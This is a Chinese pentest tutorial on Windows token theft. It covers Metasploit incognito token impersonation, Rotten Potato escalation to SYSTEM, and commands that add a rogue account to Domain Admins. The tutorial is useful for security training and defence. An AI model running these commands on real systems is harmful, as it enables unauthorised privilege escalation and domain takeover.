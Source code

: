 ## [](#%E4%BB%A4%E7%89%8C%E7%AA%83%E5%8F%96)令牌窃取

### [](#msf-%E4%B8%8A%E7%9A%84%E4%BB%A4%E7%89%8C%E7%AA%83%E5%8F%96)msf 上的令牌窃取

假设已经获取了 meterpreter shell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>use incognito<br>list_tokens -u<br>``` |

在 `incognito` 中调用 `impersonate_token`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>impersonate_token DESKTOP-DUNPKQ9\\Administrator<br>``` |

`注意`：在输入主机名 `\` 用户名时，需要输入两个反斜杠

### [](#rotten-potato-%E6%9C%AC%E5%9C%B0%E6%8F%90%E6%9D%83)Rotten Potato 本地提权

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>use incognito<br>list_tokens -u<br>execute -HC -f rottenpotato.exe<br>impersonate_token "NT AUTHORITY\\SYSTEM"<br>``` |

### [](#%E6%B7%BB%E5%8A%A0%E5%9F%9F%E7%AE%A1%E7%90%86%E5%91%98)添加域管理员

假设网络中设置了域管进程，在 `meterpreter shell` 中迁移进程至域管进程中

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>net user test test123!@# /ad /domain<br>net group "domain admins" test /ad /domain<br>``` |

同样，在 `meterpreter shell` 中可以使用 `incognito` 来模拟域管理员，然后通过迭代系统中所有可用的身份验证令牌来添加域管理员。

在活动的 `meterpreter shell` 中执行如下命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>add_user test test!@#123 -h 1.1.1.2<br>``` |

执行如下命令，将该账户加到域管理员组中。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>add_user "Domain Admins" test -h 1.1.1.2<br>``` |

### [](#empire-%E4%B8%8B%E7%9A%84%E4%BB%A4%E7%89%8C%E7%AA%83%E5%8F%96%E5%88%86%E6%9E%90)Empire 下的令牌窃取分析
